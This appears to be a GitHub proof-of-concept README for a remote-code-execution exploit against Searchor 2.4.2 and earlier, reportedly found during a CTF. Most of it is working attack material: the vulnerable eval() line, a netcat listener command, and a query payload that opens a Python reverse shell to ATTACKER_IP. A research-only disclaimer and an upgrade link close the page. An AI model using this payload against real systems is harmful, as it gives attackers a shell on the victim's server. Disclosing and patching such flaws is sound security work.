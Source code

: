 # POC-Searchor-2.4.2
eval() Exploit POC for Searchor 2.4.2 and lower

vulnerability Reference: https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b

* This is displayed for research purposes only and found during CTF

Vulnerable code includes eval() methods as here

```python
url = eval(
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
```

If user parameter `query` is not sanitized it leads to RCE.


* Exploit code for linux target

1. Prepare a listener: `nc -lvnp PORT`
2. send this as query parameter to the tested host

```

', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

```

## DISCLAIMER

* this is posted for research purpose only
* use the newest Searcher version to be safe: https:/I/github.com/ArjunSharda/Searchor
* using this against other web sites is subject to criminal punishment!
